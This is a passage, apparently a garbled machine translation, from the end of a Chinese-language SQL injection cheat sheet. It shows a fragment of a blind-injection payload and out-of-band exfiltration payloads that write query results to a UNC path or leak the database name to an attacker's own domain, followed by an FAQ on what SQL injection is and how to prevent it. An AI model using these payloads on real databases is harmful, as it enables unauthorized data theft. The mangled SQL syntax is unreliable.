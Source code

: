 和(ascii(substr((select column from information _ schema . columns 其中 t

带外: 当结果有限时，我们需要选择另一个渠道来注入所需的信息。

选择@@version 进入 outfile '////127 . 0 . 0 . 1/tmp/results . txt '；

选择 load_file(concat('\\\\ '，database()，'。<own _ site>/tmp/result . txt’)；

#### 3。什么是基本 SQL 注入？

SQL 注入是最常见的网络攻击之一。攻击者可以通过注入恶意代码和破坏数据的完整性来改变存储在数据库中的信息。

#### 4。SQL 注入违法吗？

是的，SQL 注入是非法的，因为它让网络攻击者可以在用户不知情的情况下访问数据库中的关键私人信息。黑客可以使用不同的方法实施这种攻击，如本备忘单所述。

#### 5。如何防止 SQL 注入？

当软件开发人员创建需要用户输入的动态数据库查询时，就会发生 SQL 注入。

为了避免 SQL 注入攻击，开发人员要么停止编写动态查询，要么实施更强的安全措施来保护用户信息和输入。

下面是一些预防 SQL 注入的方法:

*   使用参数化查询的预准备语句的使用
*   存储过程
*   用户输入的验证
*   转义所有用户提供的输入
*   强制执行最小权限

**人也在读书:**